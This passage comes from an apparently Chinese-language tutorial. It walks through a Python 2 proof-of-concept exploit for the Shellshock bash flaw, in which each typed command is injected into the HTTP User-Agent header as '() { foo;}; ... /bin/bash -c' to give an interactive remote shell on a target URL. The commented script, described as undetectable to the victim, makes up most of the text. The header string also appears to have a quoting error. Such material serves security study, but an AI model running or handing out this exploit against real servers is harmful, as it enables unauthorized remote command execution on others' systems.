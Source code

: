 下面这段Python写的Poc的代码非常的酷(屌哒哒),用户根本感觉不到发生了什么事情.
这个Poc执行后就和系统的命令终端一样,不过这个Poc它的目的却与系统的不同.这个Poc会修改浏览器的User-Agent
信息,然后不停的向攻击主机发送一个恶意的指令(这里是执行某个特定的命令).

下面这段代码封装了一个无限循环,通过raw_input获取用户输入的终止标记，最后提交请求,从下面的这段代码你可以看到
如何去完成一个HTTP请求以及如何修改User-Agent的内容：

```
#!/usr/bin/python
import sys, urllib2    #导入需要使用的模块
 
if len(sys.argv) != 2:    # 检查输入命令的格式是否正确 "<script> <URL>"
  print "Usage: "+sys.argv[0]+" <URL>"
  sys.exit(0)
 
URL=sys.argv[1]        # 把测试的URL输出显示出来
print "[+] Attempting Shell_Shock - Make sure to type full path"
 
while True:        # 通过raw_input来获取用户输入的值,如果是"~$"就停止执行 
  command=raw_input("~$ ")
  opener=urllib2.build_opener()        # 修改默认的请求头部,把修改后的User-Agent包含进去
  opener.addheaders=[('User-agent', '() { foo;}; echo Content-Type: text/plain ; echo ' /bin/bash -c "'+command+'"')]
  try:                    # 使用Try/Except 进行错误处理
    response=opener.open(URL)    #提交请求并且显示响应结果
    for line in response.readlines():
      print line.strip()
  except Exception as e: print e
```
下面的图片是这个脚本执行后的截图,正在测试ip地址为http://192.168.56.101
的系统,你可以很清晰的看到执行之后会生成一个和真实命令终端几乎是一样的．
大家其实可以看到这个脚本只是对测试系统发送了一个HTTP请求.其他的什么也没有
做.不过最后一张图展示了具体的细节部分:

![shell1][1]

![shell2][2]

[1]: /zh-cn/img/0x131.png
[2]: /zh-cn/img/0x132.png